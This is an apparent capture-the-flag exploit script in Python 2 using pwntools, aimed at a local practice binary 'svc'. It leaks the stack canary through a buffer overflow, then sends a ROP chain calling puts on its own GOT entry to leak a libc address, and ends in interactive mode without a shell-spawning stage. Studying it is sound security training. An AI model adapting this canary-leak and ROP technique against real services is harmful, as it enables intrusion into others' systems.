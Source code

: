 ```
#Import pwntools
from pwn import *

#Establish the target process, and attack gdb
target = process("./svc")
gdb.attach(target)
elf = ELF('svc')

#Establish the needed addresses
puts_got = 0x602018
puts_plt = 0x4008d0
gadget = 0x400ea3

log.info("puts_got is: " + hex(puts_got))
log.info("puts_plt is: " + hex(puts_plt))
log.info("gadget addr: " + hex(gadget))

#Specify that the menu option to scan in data into memory
print target.recvuntil(">>")
target.sendline('1')
print target.recvuntil(">>")

#Send the payload, which will allow us to leak the canary
leak_payload = "0"*0xa8
target.sendline(leak_payload)
print target.recvuntil(">>")

#Select the second option, to print out our input and leak the canary
target.sendline('2')
print target.recvuntil("[*]PLEASE TREAT HIM WELL.....")
print target.recvline()
print target.recvline()
print target.recvline()

#Scan in, parse out, unpack, and print the stack canary
leak = target.recvline()
print len(leak)
canary = u64("\x00" + leak[0:7])
log.info("The Stack Canary is: " + hex(canary))

#Specify that the menu option to scan in data into memory
print target.recvuntil(">>")
target.sendline('1')
print target.recvuntil(">>")

#Send the payload, which will allow us to leak the puts address
leak_payload = "0"*0xa8 + p64(canary) + "1"*8 + p64(gadget) + p64(puts_got) + p64(puts_plt)
target.sendline(leak_payload)
print target.recvuntil(">>")

#Se;ect the option to exit the loop, then scan in the address
target.sendline('3')
print target.recvuntil("[*]BYE ~ TIME TO MINE MIENRALS...\n")
puts_leak = target.recvline()
puts_leak = u64(puts_leak[0:6] + (8 - len(puts_leak[0:6]))*"\x00")
log.info("puts_leak: " + hex(puts_leak))


#drop to an interactive shell
target.interactive()
```
